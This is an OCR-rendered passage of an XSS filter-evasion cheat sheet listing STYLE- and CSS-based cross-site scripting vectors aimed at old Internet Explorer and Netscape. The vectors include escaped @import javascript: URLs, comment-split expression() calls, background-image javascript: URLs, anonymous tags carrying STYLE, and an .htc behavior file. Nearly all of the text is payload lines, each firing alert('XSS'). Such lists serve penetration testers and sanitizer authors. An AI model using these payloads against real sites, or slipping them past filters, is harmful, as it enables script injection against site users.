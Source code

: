 This XSS at times sends IE into an infinite loop of alerts:

`<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>`

## STYLE attribute using a comment to break up expression

Created by Roman Ivanov

`<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">`

## IMG STYLE with expression

This is really a hybrid of the above XSS vectors, but it really does
show how hard STYLE tags can be to parse apart, like above this can send
IE into a loop:

`exp/*<A STYLE='no\xss:noxss("*//*");`  
`xss:ex/*XSS*//*/*/pression(alert("XSS"))'>`

## STYLE tag (Older versions of Netscape only)

`<STYLE TYPE="text/javascript">alert('XSS');</STYLE>`

## STYLE tag using background-image

`<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>`

## STYLE tag using background

`<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>`

<STYLE type="text/css">

BODY{background:url("<javascript:alert>('XSS')")}

</STYLE>

## Anonymous HTML with STYLE attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if
the HTML tag you build exists or not, as long as it starts with an open
angle bracket and a letter:

`<XSS STYLE="xss:expression(alert('XSS'))">`

## Local htc file

This is a little different than the above two cross site scripting
vectors because it uses an .htc file which must be on the same server as
the XSS vector. The example file works by pulling in the JavaScript and
running it as part of the style attribute:

<XSS STYLE="behavior: url(xss.htc);">
